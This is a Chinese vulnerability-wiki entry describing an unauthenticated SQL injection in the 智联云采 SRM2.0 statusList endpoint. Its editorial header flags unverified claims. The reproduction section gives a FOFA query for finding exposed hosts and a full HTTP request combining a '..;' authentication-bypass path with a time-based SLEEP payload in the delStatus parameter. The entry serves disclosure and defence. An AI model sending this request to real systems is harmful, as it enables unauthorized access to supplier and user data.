


# 智联云采 SRM2.0 statusList处 SQL注入漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：智联云采SRM2.0 sysMessage/statusList
- 文献类型：SQL注入接口摘要
- 版本、权限及部署边界：delStatus数值参数时间盲注，static/..;可能鉴权旁路；构建未知
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与212均穿越路径及延时验证但参数/路由不同，需保留独立攻击面
2. 标题未指出delStatus，orderBy虽在请求中却非本样例注入点，应准确定位
3. 3秒/5秒截图无基线和原始统计，已知在野与写木马推断无依据
4. 缺厂商版本/补丁与认证绕过分析，fofa残缺，请求未围栏

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

智联云采 SRM2.0 statusList接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 此漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

智联云采

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="SRM 2.0"

POC/EXP：延时3秒，执行2次 

POST /adpweb/static/..;/a/sys/sysMessage/statusList?companyName=1&officeName=1&orderBy=1&receiverName=1&sourceMessageId=1&delStatus=1%20AND%20(SELECT%207104%20FROM%20(SELECT(SLEEP(3)))xZoa) HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

POC/EXP：延时5秒，执行2次 

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
